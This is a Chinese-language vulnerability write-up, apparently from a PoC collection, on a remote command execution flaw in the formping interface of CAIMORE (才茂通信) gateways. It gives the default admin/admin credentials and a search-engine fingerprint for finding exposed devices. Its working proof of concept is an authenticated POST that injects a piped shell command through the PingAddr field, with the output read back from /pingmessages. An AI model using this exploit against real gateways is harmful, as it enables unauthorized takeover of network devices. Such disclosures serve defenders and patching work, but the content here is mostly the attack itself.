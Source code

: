 # 才茂通信 网关  formping 远程命令执行漏洞

## 漏洞描述

才茂通信网关  formping 接口存在远程命令执行漏洞，攻击者通过默认口令 admin/admin 登陆系统后通过命令可以获取服务器权限

## 漏洞影响

<a-checkbox checked>才茂通信 网关 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="CAIMORE-Gateway"</a-checkbox></br>

## 漏洞复现

登陆页面，默认口令 admin/admin

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681381379945-dee7d6a4-f5ab-477b-988f-73c5b0d53986.png)

验证POC

```plain
POST /goform/formping
Authorization: Basic YWRtaW46YWRtaW4=

PingAddr=www.baidu.com%7Cls&PingPackNumb=1&PingMsg=
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681386245774-e2311065-b689-435f-b070-7361306ae064.png)



```plain
/pingmessages
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681386230461-7f63b5d4-1994-4408-b30a-adbd73cc33a4.png)